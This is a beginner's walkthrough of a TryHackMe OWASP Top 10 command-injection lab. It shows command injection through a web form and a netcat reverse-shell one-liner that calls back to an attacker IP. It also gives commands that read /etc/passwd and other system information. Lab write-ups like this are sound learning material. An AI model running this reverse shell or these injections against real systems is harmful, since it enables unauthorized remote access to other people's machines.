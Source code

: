 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)

#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 
![enter image description here](C:%5CUsers%5Cm-us1%5CDesktop%5Cwrite-ups)
but if i enter "root" the page will print a message with success
# image
so now i will try yo inject it with a username and  command "root;ls"
# image
the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 
# image
the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 
 to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
 refresh the page and check your terminal you can execute the same command down there   
####  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 
maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 
# image
### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 
# image
will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami
# image
the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd
# image
### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 
# image
but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a
# Image
### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 
in the end of the file the mention a type of drink 
# image

thanks 


